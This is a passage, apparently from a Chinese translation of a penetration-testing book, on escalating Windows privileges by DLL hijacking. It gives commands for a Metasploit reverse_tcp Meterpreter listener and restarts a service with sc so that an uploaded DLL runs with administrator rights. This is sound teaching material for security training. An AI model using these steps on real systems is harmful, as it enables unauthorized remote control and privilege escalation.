     图 8.32 – 上传自定义 DLL

1.  现在我们需要使用 Metasploit 设置 Meterpreter 监听器。可以通过在 Metasploit 控制台中运行以下命令来完成：

    `use /exploit/multi/handler`

1.  下一步是指定我们用 `msfvenom` 创建二进制文件时使用的有效载荷。可以通过运行以下命令来完成：

    `set payload /windows/x64/meterpreter/reverse_tcp`

    现在我们需要配置模块选项。在这种情况下，我们需要配置 `LHOST` 和 `LPORT` 选项，如下图所示：

    ![图 8.33 – Meterpreter 监听器选项    ](img/B17389_08_033.jpg)

    图 8.33 – Meterpreter 监听器选项

1.  在设置模块选项后，我们可以通过运行以下命令启动监听器：

    `run`

    监听器将监听来自我们使用 `msfvenom` 生成的有效载荷的任何传入连接。

1.  为了执行自定义 DLL，我们需要重新启动 `dllsvc` 服务。可以通过在 Windows 命令行中运行以下命令来完成：

    `sc stop dllsvc`

    `sc start dllsvc`

    如果你正确地跟随了迄今为止的步骤，你应该能在我们设置的监听器上接收到一个 Meterpreter 会话，如下所示：

    ![图 8.34 – DLL 劫持 Meterpreter    ](img/B17389_08_034.jpg)

    图 8.34 – DLL 劫持 Meterpreter

1.  我们可以通过运行以下命令验证我们是否已经获得了提升的 Meterpreter 会话：

    `getuid`

    如下图所示，我们已经成功提升了权限，应该拥有一个带有管理员权限的 Meterpreter 会话：

![图 8.35 – getuid Meterpreter](img/B17389_08_035.jpg)
